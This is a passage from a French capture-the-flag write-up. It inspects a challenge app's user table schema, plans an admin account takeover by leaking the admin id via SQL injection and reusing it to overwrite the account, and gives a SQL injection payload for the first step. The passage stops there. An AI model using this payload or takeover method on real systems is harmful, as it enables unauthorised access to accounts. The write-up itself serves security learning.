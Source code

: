 *Résultat*:
```bash
{'username': 'vozec', 'id': 'injected_id'}
```

On peut maintenant jeter un œil au schéma de la DB:
```bash
export class UserEntity extends BaseEntity {
  @PrimaryGeneratedColumn('uuid')
  public id: string;

  @Column({ unique: true, length: 32 })
  public pseudo: string;

  @Column({ length: 6 })
  public password: string;
}
```

On peut lancer le challenge en local avec :  
```bash
docker-compose build
docker-compose up
```

Si on se connecte à la base de donné et qu'on inspecte le schéma de la table ``users``:
```bash
describe users;
```

On obtient:  
```
+----------+-------------+------+-----+---------+-------+
| Field    | Type        | Null | Key | Default | Extra |
+----------+-------------+------+-----+---------+-------+
| id       | varchar(36) | NO   | PRI | NULL    |       |
| pseudo   | varchar(32) | NO   | UNI | NULL    |       |
| password | varchar(6)  | NO   |     | NULL    |       |
+----------+-------------+------+-----+---------+-------+
```

On voit ici que ``id`` à une taille maximale de 36 caractères.  
Il va être difficile de faire une injection sql dans ce paramètre pour exfiltrer le mot de passe de l'admin.

En revanche, on remarque que l'id est une **clé primaire**.
Pourtant, il n'y a aucun test d'unicité sur l'id ce qui veut dire que si on crée un utilisateur avec le même id que l'admin, celui va le remplacer de la base de données.

L'idée est la suivante :
- Utiliser la SQLI pour leak l'id de l'admin
- Créer un utilisateur avec cet ID pour supprimer 'admin' des utilisateurs
- Re-créer un utilisateur 'admin' avec un mot de passe à nous.

## Etape 1:
On peut utiliser ce payload:
```bash
' or users.pseudo = 'admin' --
```
